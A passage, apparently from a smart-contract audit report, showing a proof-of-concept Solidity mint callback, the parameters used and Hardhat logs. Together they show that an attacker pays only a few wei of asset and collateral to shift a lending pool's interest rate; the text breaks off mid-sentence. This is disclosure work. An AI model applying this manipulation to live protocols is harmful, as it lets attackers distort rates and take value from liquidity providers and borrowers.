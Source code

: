 
    function timeswapMintCallback(
            uint112 assetIn,
            uint112 collateralIn,
            bytes calldata data
        ) override external{
            jtok.mmint(100_000 ether);
            usdc.mmint(100_000 ether);
            console.log("Asset requested:", assetIn);
            console.log("Collateral requested:", collateralIn);
            //check before
            uint256 beforeJtok = jtok.balanceOf(msg.sender);
            console.log("Attacker jtok before", beforeJtok);
            //transfer
            jtok.transfer(msg.sender, assetIn);
            //check after
            uint256 afterJtok = jtok.balanceOf(msg.sender);
            console.log("Attacker jtok after", afterJtok);
            //check before
            uint256 beforeUsdc = usdc.balanceOf(msg.sender);
            console.log("Attacker USDC  before", beforeUsdc);
            //transfer
            usdc.transfer(msg.sender, collateralIn);
            //check after
            uint256 afterUsdc = usdc.balanceOf(msg.sender);
            console.log("Attacker USDC After", afterUsdc);
            
        }
    }

Which contains the following settings for a mint:

        uint112 xIncrease = 3;
        uint112 yIncrease = 1000000000000000;
        uint112 zIncrease = 5; //Static 167% CDP

According to my logs in hardhat:

```
    Maturity:  1641859791
    Callback before: 8333825816710789998373
    Asset requested: 3
    Collateral requested: 6
    Attacker jtok before 5000000000000000000000
    Attacker jtok after 5000000000000000000003
    Attacker USDC  before 8333825816710789998373
    Attacker USDC After 8333825816710789998379
    Callback after: 8333825816710789998379
    Callback expected after: 8333825816710789998379

```

The attacker is only required to pay 3 wei of Asset Token and 6 wei of Collateral token. However, after the attacker's malicious mint is up, the interest rate becomes:
